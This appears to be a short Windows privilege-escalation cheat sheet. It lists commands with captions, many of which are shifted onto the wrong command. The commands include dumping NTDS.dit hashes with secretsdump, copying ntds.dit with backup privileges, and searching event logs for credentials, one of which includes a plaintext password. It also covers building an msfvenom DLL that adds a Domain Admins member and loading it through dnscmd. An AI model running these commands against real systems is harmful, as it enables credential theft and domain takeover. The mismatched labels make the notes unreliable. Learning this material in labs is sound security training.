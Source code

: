 > Checking ownership of a file

`takeown /f C:\backups\wwwroot\web.config`

> Taking ownership of a file

`Get-ChildItem -Path ‘C:\backups\wwwroot\web.config’ | select name,directory, @{Name=“Owner”;Expression={(Ge t-ACL $_.Fullname).Owner}}`

> Confirming changed ownership of a file

`icacls “C:\backups\wwwroot\web.config” /grant lafi:F`

> Modifying a file ACL

`secretsdump.py -ntds ntds.dit -system SYSTEM -hashes lmhash:nthash LOCAL`

> Extract hashes with secretsdump.py

`robocopy /B E:\Windows\NTDS .\ntds ntds.dit`

> Copy files with ROBOCOPY

`wevtutil qe Security /rd:true /f:text | Select-String "/user"`

> Searching security event logs

`wevtutil qe Security /rd:true /f:text /r:share01 /u:julie.clay /p:Welcome1 | findstr "/user"`

> Passing credentials to wevtutil

`Get-WinEvent -LogName security | where { $_.ID -eq 4688 -and $_.Properties[8].Value -like '*/user*' } | Select-Object @{name='CommandLine';expression={ $_.Properties[8].Value }}`

> Searching event logs with PowerShell

`msfvenom -p windows/x64/exec cmd='net group "domain admins" netadm /add /domain' -f dll -o adduser.dll`

> Generate malicious DLL

`dnscmd.exe /config /serverlevelplugindll adduser.dll`

> Loading a custom DLL with dnscmd

`wmic useraccount where name="netadm" get sid`

> Finding a user's SID

`sc.exe sdshow DNS`

> Checking permissions on DNS service

`sc stop dns`

> Stopping a service

`sc start dns`

> Starting a service

`reg query \\10.129.43.9\HKLM\SYSTEM\CurrentControlSet\Services\DNS\Parameters`

> Querying a registry key
